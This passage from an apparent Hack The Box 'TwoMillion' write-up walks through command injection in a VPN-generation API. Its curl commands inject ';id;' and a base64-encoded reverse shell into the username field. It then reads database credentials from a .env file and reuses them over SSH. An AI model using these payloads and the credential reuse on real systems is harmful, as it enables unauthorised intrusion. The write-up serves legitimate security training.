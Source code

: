 Since its sending the VPN through the command, It might be possible its running it from `exec` or `system` PHP commands. It might be possible to inject commands by using `;id;` after the username.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"username": "testuser;id;"}' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's try to put in a reverse shell.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"username": "testuser;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40NC80NDQ0IDA+JjEK | base64 -d | bash;"}' 
```

<figure><img src="/assets/htb/TwoMillion/wwwdata.png" alt="Shell as www-data"></figure>

On enumeration of the web directory there was a file `.env` which had some credentials.

```terminal
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

On looking at the `passwd` file there was another user called `admin`.

## User Flag

I ssh'd into the user admin using the `DB_PASSWORD`.
